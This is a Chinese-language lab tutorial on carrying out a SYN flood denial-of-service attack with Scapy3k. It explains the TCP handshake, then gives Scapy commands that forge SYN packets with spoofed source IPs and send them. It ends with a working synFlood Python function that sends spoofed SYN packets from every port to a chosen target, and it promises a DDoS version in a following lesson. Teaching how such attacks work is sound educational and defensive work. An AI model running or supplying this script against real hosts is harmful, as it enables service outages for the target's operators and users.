 # Scapy实现SYN泛洪攻击

## 一、实验说明

### 1.实验介绍
本次实验将使用python3版本的Scapy--Scapy3k来实现一个简单的DDos，本次实验分为两节，本节将学习如何使用Scapy3k来实现SYN泛洪攻击。


### 2.知识点

 1. SYN泛洪攻击的实现原理
 2. Scapy3k的基本用法

### 3.效果图

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477456226921.png/wm)

## 二、基础知识
以下部分内容整理自百度百科、360百科和Scapy3k官方文档：
- [SYN Flood](http://baike.so.com/doc/5503756-5739500.html)
- [SYN 泛洪攻击](http://baike.baidu.com/link?url=cXyy0mXM6Hnt3sZtUO0QG-8Nah39thBvBLI4GAUbHP4d8fFBxFMloZdKN9tgb_XNWlp42OZjHnP_oH4kTqFpfg1ycHz0j_wFJn4bEqYQvKSu03WJ6Mn0gR7xC4_69t0T)
- [Scapy3k官方文档](https://phaethon.github.io/scapy/api/)

### 1.SYN泛洪攻击
`SYN泛洪攻击`(SYN Flood)是一种比较常用的`DoS`方式之一。通过发送大量伪造的Tcp连接请求，使被攻击主机资源耗尽(通常是CPU满负荷或者内存不足)
的攻击方式。

我们都知道建立Tcp连接需要完成三次握手。正常情况下客户端首先向服务端发送`SYN报文`，随后服务端回以SYN+ACK报文到达客户端，最后客户端向服务端发送ACK报文完成三次握手。

![正常TCP连接](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477479667232.png/wm)

而`SYN泛洪攻击`则是客户端向服务器发送`SYN报文`之后就不再响应服务器回应的报文。由于服务器在处理TCP请求时，会在协议栈留一块缓冲区来存储握手的过程，当然如果超过一定的时间内没有接收到客户端的报文，本次连接在协议栈中存储的数据将会被丢弃。攻击者如果利用这段时间发送大量的连接请求，全部挂起在`半连接状态`。这样将不断消耗服务器资源，直到`拒绝服务`。

![SYN Flood](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477479685456.png/wm)

### 2.Scapy3k基本用法

`Scapy3k`其实就是`Scapy`的Python3版本，以下我就简称`Scapy`。`Scapy`是一个强大的交互式数据包处理程序。可用来发送、嗅探、解析和伪造网络数据包。在网络攻击和渗透测试中应用非常广泛。`Scapy`是一个独立的程序同时还可以作为Python的第三方库使用。是不是有些迫不及待的想见识一下`Scapy`的强大之处了？

我们先在实验环境中安装`Scapy3k`:

```
sudo pip3 install scapy-python3
```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477485000170.png/wm)

现在运行`scapy`学习一下它的使用方法。

```
sudo scapy
```

这里需要注意：`Scapy`发送数据包需要`root`权限，所以这里我们加上了`sudo`。另外运行的时候会出现一些警告信息，我们这次实验没有用到相关的功能可以不用管，需要用的安装相应的依赖包就可以了。

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477487752634.png/wm)

现在我们用`Scapy`构造一个简单的数据包看一下：


```
pkt = IP(dst="192.168.0.100")
```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477550216352.png/wm)

可以看到`Scapy`构造一个数据包非常简单，我们再来看一下如何构造`SYN`数据包：

```
IP(src="202.121.0.12",dst="192.168.0.100")/TCP(dport=80,flags="S")
```

我们构造了一个IP包和TCP包并将它们组合到一块，这样就有了一个完整的TCP数据包，否则是无法发送出去的。IP包中我们指定了源地址`src`和目的地址`dst`，其中`src`是我们伪造的地址，当然这也是DoS攻击中保护攻击者的一种方式。`flags`的值我们设定为`S`,说明我们要发送的是`SYN`数据包。非常简短的一段指令就够造了一个伪造了源IP地址的`SYN`数据包，是不是很简单？

构造了我们想要的数据包，现在我们把它发送出去：


```
pkt = IP(src="202.121.0.12",dst="192.168.0.100")/TCP(dport=80,flags="S")
send(pkt)
```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477553741099.png/wm)

至此我们编写`SYN泛洪攻击`的基本知识就已经全部介绍完了，用这些知识足够我们来完成本次试验了。至于`Scapy`的更详细用法，可以看一下官方文档，你就会发现`Scapy`的强大之处。

## 三、代码实现

现在我们要用Python以第三方库的形式使用`Scapy`,使用方法和用交互式Shell的方式一样，注意：使用前要先导Scapy的包：

```
from scapy.all import
```
之前我们已经构造过了`SYN`数据包，现在我们需要实现随机伪造源IP地址、以及以不同的源端口向目标主机发送`SYN`数据包:

```
import random
from scapy.all import *

def synFlood(tgt,dPort):
    srcList = ['201.1.1.2','10.1.1.102','69.1.1.2','125.130.5.199']
    for sPort in range(1024,65535):
        index = random.randrange(4)
        ipLayer = IP(src=srcList[index], dst=tgt)
        tcpLayer = TCP(sport=sPort, dport=dPort,flags="S")
        packet = ipLayer / tcpLayer 
        send(packet)

```
在代码中我定义了`srcList`用于存放伪造的IP地址，之后定义了一个循环，作用是每次发送数据包源端口都改变，可以看到在构造TCP数据包的时候我们增加了一个参数`sport`，循环中改变的端口号就是给了`sport`这个参数。我们还调用`random.randrange()`函数来随机从`srcList`中获取一个伪造的IP地址。

至此我们本次实验就完成了，虽然代码非常少不过功能我们却实现的比较理想，这主要是因为Python的语法本身非常简洁，再加上`Scapy`封装的也非常好，才会让我们写出即简洁功能又强大的代码。

现在我们只实现了`DoS`攻击的脚本，在下一次实验我们将继续完善代码，实现`DDoS`。
